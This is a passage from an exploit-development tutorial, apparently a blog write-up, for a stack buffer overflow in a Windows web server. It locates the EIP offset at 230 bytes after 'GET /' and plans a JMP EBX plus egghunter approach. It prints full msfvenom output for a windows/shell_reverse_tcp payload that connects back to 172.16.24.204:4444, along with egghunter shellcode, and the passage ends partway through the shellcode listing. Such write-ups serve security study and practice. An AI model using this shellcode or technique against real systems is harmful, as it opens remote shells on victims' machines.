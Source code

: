 The result is following:

![Fuzzing results](https://github.com/smarinovic/smarinovic.github.io/blob/master/assets/img/minalic_07.png?raw=true)

Another MetaSploit script can be used to find location of EIP value 37684136:

```
msf-pattern_offset -l 240 -q 37684136
[*] Exact match at offset 230
```

EIP is located at 230 characters after ```GET /``` prefix. We can also notice that ESP is pointing to ```Ah8Ah9``` which is the end of URL (end of our unique pattern) in GET request.
  
  
As next step, we need to find address with ```JMP ESP``` and write opcodes to jump back up the stack to reach our shellcode or find ```JMP EBX``` instruction and place egghunter in Host header and shellcode somewhere else. For practice, let's chose ```JMP EBX``` + egghunter approach.

Since this is a web server we can try our luck with usual bad characters without looking for a bad ones:

* Generate egghunter (for w00t egg):

```
/usr/bin/msf-egghunter -f python -e w00t -p windows -a x86
buf =  b""
buf += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c"
buf += b"\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75"
buf += b"\xea\xaf\x75\xe7\xff\xe7"
```

* Generate reverse shell code:

```
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=172.16.24.204 LPORT=4444 -f python -b "\x00\x0a\0d"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xdb\xde\xbe\xcb\x1f\xb0\xfc\xd9\x74\x24\xf4\x5b\x2b"
buf += b"\xc9\xb1\x52\x31\x73\x17\x83\xeb\xfc\x03\xb8\x0c\x52"
buf += b"\x09\xc2\xdb\x10\xf2\x3a\x1c\x75\x7a\xdf\x2d\xb5\x18"
buf += b"\x94\x1e\x05\x6a\xf8\x92\xee\x3e\xe8\x21\x82\x96\x1f"
buf += b"\x81\x29\xc1\x2e\x12\x01\x31\x31\x90\x58\x66\x91\xa9"
buf += b"\x92\x7b\xd0\xee\xcf\x76\x80\xa7\x84\x25\x34\xc3\xd1"
buf += b"\xf5\xbf\x9f\xf4\x7d\x5c\x57\xf6\xac\xf3\xe3\xa1\x6e"
buf += b"\xf2\x20\xda\x26\xec\x25\xe7\xf1\x87\x9e\x93\x03\x41"
buf += b"\xef\x5c\xaf\xac\xdf\xae\xb1\xe9\xd8\x50\xc4\x03\x1b"
buf += b"\xec\xdf\xd0\x61\x2a\x55\xc2\xc2\xb9\xcd\x2e\xf2\x6e"
buf += b"\x8b\xa5\xf8\xdb\xdf\xe1\x1c\xdd\x0c\x9a\x19\x56\xb3"
buf += b"\x4c\xa8\x2c\x90\x48\xf0\xf7\xb9\xc9\x5c\x59\xc5\x09"
buf += b"\x3f\x06\x63\x42\xd2\x53\x1e\x09\xbb\x90\x13\xb1\x3b"
buf += b"\xbf\x24\xc2\x09\x60\x9f\x4c\x22\xe9\x39\x8b\x45\xc0"
buf += b"\xfe\x03\xb8\xeb\xfe\x0a\x7f\xbf\xae\x24\x56\xc0\x24"
buf += b"\xb4\x57\x15\xea\xe4\xf7\xc6\x4b\x54\xb8\xb6\x23\xbe"
buf += b"\x37\xe8\x54\xc1\x9d\x81\xff\x38\x76\x02\xef\x5a\x4a"
buf += b"\x32\x12\x5a\x43\x9f\x9b\xbc\x09\x0f\xca\x17\xa6\xb6"
```